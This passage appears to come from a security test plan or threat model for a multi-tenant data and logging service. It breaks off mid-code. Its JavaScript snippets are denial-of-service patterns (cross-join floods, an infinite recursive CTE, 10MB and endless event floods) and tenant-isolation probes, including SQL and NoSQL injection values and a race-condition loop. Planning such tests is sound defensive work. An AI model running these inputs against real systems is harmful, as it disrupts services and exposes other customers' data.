 ### 2. Resource Exhaustion Attacks

#### Credit Burn Amplification
```javascript
// Generate expensive queries
for (let i = 0; i < 1000; i++) {
  submitQuery({
    template: "COMPLEX_JOIN",
    params: {
      // Cross join to explode results
      table1: "CLAUDE_STREAM",
      table2: "CLAUDE_STREAM",
      condition: "1=1"
    }
  });
}

// Infinite recursive CTEs
const recursiveQuery = `
  WITH RECURSIVE infinite AS (
    SELECT 1 as n
    UNION ALL
    SELECT n + 1 FROM infinite
  )
  SELECT * FROM infinite
`;
```

#### Queue Overflow
```javascript
// Flood NDJSON queue
const hugePayload = "x".repeat(10000000); // 10MB
for (let i = 0; i < 10000; i++) {
  logEvent({
    activity: "overflow",
    feature_json: { data: hugePayload }
  });
}

// Rapid-fire small events
while (true) {
  logEvent({ activity: "dos", feature_json: {} });
}
```

### 3. Data Boundary Violations

#### Cross-Customer Access
```javascript
// Try to access other customers' data
const attempts = [
  { customer_id: "*" },
  { customer_id: "' OR '1'='1" },
  { customer_id: null },
  { customer_id: undefined },
  { customer_id: ["customer1", "customer2"] },
  { customer_id: { $ne: "myid" } }
];

// Exploit race conditions
const promises = [];
for (let i = 0; i < 1000; i++) {
  promises.push(getContext({ 
    customer_id: `customer${i}` 
```